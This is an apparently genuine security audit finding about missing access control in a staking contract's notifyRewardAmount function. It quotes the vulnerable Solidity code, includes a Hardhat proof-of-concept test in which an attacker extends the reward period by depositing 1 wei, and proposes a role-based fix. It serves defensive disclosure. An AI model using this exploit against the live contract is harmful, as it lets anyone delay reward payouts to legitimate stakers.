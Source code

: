 Shallow Amethyst Turtle

Medium

# Lack of Access Control in `SymmStaking::notifyRewardAmount` Allows DoS via Reward Period Extension

https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L275

## Summary

The `notifyRewardAmount` function lacks access control, allowing any user to extend the reward distribution duration by depositing a minimal amount (e.g., 1 wei). This can be exploited by an attacker to cause a Denial of Service (DoS) by significantly extending the `state.periodFinish` timestamp in the `_addRewardsForToken` function, disrupting the reward distribution mechanism.

## Vulnerability Details

The vulnerability lies in the `notifyRewardAmount` function, which does not enforce any access control. This allows any user to call the function and deposit a small amount of tokens (e.g., 1 wei) to trigger the `_addRewardsForToken` function. Inside `_addRewardsForToken`, the `state.periodFinish` is updated to `block.timestamp + state.duration`, regardless of the amount deposited. 

An attacker can repeatedly call this function with minimal amounts to extend the `state.periodFinish` timestamp indefinitely, effectively causing a DoS by preventing legitimate reward distributions from occurring in a timely manner.

### Code Snippet:
```solidity
function notifyRewardAmount(address[] calldata tokens, uint256[] calldata amounts)
    external
    nonReentrant
    whenNotPaused
{
    //@audit-issue No access control
    _updateRewardsStates(address(0));
    if (tokens.length != amounts.length) revert ArraysMismatched();

    uint256 len = tokens.length;
    for (uint256 i = 0; i < len; i++) {
        address token = tokens[i];
        uint256 amount = amounts[i];

        if (amount == 0) continue;
        if (!isRewardToken[token]) revert TokenNotWhitelisted(token);

        IERC20(token).safeTransferFrom(msg.sender, address(this), amount);
        pendingRewards[token] += amount;
        _addRewardsForToken(token, amount);
    }
    emit RewardNotified(tokens, amounts);
}

function _addRewardsForToken(address token, uint256 amount) internal {
    TokenRewardState storage state = rewardState[token];

    if (block.timestamp >= state.periodFinish) {
        state.rate = amount / state.duration;
    } else {
        uint256 remaining = state.periodFinish - block.timestamp;
        uint256 leftover = remaining * state.rate;
        state.rate = (amount + leftover) / state.duration;
    }

    state.lastUpdated = block.timestamp;
@>    state.periodFinish = block.timestamp + state.duration;
}
```
## Proof of Concept
Add this test to `test/symmStaking.behavior.ts` file, 
```javascript
it("attacker should increase reward period finish by depositing 1 wei", async function () {
			const depositUser1 = "604800"
			await stakingToken.connect(user1).approve(await symmStaking.getAddress(), depositUser1)
			await usdtToken.connect(admin).transfer(user2, 10000)

			const rewardAmount = "5000000000000000000000" // 5000 tokens
			await usdtToken.connect(admin).approve(await symmStaking.getAddress(), rewardAmount)
			await symmStaking.connect(admin).configureRewardToken(await usdtToken.getAddress(), true)
			await symmStaking.connect(admin).notifyRewardAmount([await usdtToken.getAddress()], [rewardAmount])
			
			await symmStaking.connect(user1).deposit(depositUser1, user1.address)
			await time.increase(604700) // Simulate time pass
			
			const InitialRewardState = await symmStaking.rewardState(usdtToken)
			
			// Attacker calls notifyRewardAmount
			await usdtToken.connect(user2).approve(await symmStaking.getAddress(), 1)
			await symmStaking.connect(user2).notifyRewardAmount([await usdtToken.getAddress()], [1])
			
			const finalRewardState = await symmStaking.rewardState(usdtToken)

			expect(finalRewardState.periodFinish).to.be.greaterThan(InitialRewardState.periodFinish);
		
		})
```
From the test, when the attacker calls `notifyRewardAmount`, this extends the period finish for the tokenreward by the duration, just by depositing 1 wei

## Impact

- **Denial of Service (DoS):** An attacker can repeatedly extend the `state.periodFinish` timestamp, preventing legitimate reward distributions from occurring in a timely manner.
- **Disruption of Reward Mechanism:** The reward distribution mechanism can be significantly disrupted, leading to unfair distribution of rewards or even rendering the system unusable.
- **Financial Loss:** Legitimate users may be unable to claim their rewards on time, leading to potential financial losses or dissatisfaction.

## Tools Used

- Manual code review
- hardhat

## Recommendations

1. **Implement Access Control:**
   - Restrict the `notifyRewardAmount` function to only allow specific privileged addresses (e.g., the contract owner or a designated reward distributor) to call it. This can be done using the ` onlyRole(REWARD_MANAGER_ROLE)` modifier or a custom access control mechanism.

```diff
   function notifyRewardAmount(address[] calldata tokens, uint256[] calldata amounts)
       external
+     onlyRole(REWARD_MANAGER_ROLE)
       nonReentrant
       whenNotPaused
   {
       // Existing logic...
   }
```
